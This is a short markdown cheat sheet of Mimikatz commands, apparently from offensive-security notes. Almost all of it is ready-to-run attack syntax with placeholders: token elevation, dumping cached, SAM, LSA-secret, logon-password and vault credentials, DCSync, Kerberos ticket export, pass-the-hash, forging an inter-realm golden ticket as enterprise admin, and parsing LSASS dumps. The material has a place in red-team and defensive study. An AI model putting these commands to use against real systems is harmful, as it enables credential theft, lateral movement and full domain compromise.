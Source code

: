 ### source 
https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1  
https://github.com/gentilkiwi/mimikatz  

### elevate to system ("token::revert" to drop token)
```
Invoke-Mimikatz -Command '"token::elevate"'
```

### dump credentials
```
Domain Cached Credential - "lsadump::cache"
Security Hives - "lsadump::sam"
Machine Accounts "lsadump::secrets"
Local Security Authority Substem Service - "sekurlsa::logonPasswords full"
Data Protection API - "vault::cred"
```

### execute DCSync for single user
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /user:<user>"'
```

### export all tickets from memory
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### pass the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmHash>"'
```

### inter realm golden ticket - can be done offline, since domain controller connection is not necessary (/enind = validity period 60 minutes, /user can be fictitious, -519 is the SID of enteprise admin)
```
Invoke-Mimikatz -Command '"kerberos::golden /user:<attackerAccount> /domain:<compromisedDomain> /sid:<sidCompromisedDomain> /sids:<sidTargetDomain>-519 /krbtgt:<ntlmHashKrbTgt> /endin:60"'
```

### dump credentials from lsass dump
```
mimikatz.exe
mimi> sekurlsa::minidump <file>.dmp
mimi> sekurlsa::logonPasswords full
```

